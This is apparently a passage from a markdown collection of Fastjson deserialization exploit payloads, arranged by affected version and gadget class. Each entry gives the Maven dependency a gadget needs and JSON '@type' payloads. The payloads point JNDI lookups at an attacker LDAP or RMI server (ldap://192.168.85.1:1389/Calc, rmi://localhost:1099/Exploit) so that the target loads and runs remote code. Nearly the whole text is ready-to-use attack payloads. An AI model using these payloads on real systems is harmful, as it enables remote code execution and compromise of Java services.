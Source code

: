 ```
```

poc:
```json
{"@type":"br.com.anteros.dbcp.AnterosDBCPConfig","healthCheckRegistry":"ldap://192.168.85.1:1389/Calc"}
```


### <=1.2.59 org.apache.commons.proxy.provider.remoting.SessionBeanProvider
pom.xml:
```xml
        <dependency>
            <groupId>org.apache.commons</groupId>
            <artifactId>commons-proxy</artifactId>
            <version>1.0</version>
        </dependency>
```
poc:
```json
{"@type":"org.apache.commons.proxy.provider.remoting.SessionBeanProvider","jndiName":"ldap://192.168.85.1:1389/Calc","Object":"a"}
{"@type":"org.apache.commons.proxy.provider.remoting.SessionBeanProvider","jndiName":"ldap://192.168.85.1:1389/Calc"}
```

### <=1.2.59 com.zaxxer.hikari.HikariConfig
pom.xml:
```xml
        <!-- https://mvnrepository.com/artifact/hikari-cp/hikari-cp -->
        <dependency>
          <groupId>com.zaxxer</groupId>
          <artifactId>HikariCP</artifactId>
          <version>3.4.1</version>
        </dependency>
```

poc:
```json
{"@type":"com.zaxxer.hikari.HikariConfig","healthCheckRegistry":"ldap://192.168.85.1:1389/Calc"}
{"@type":"com.zaxxer.hikari.HikariConfig","metricRegistry":"ldap://192.168.85.1:1389/Calc"}
```



### MISC(to be checked)
#### 1.2.24
```json
{"b":{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://localhost:1099/Exploit", "autoCommit":true}}
```

#### 未知版本(1.2.24-41之间)
```json
{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://localhost:1099/Exploit","autoCommit":true}
```
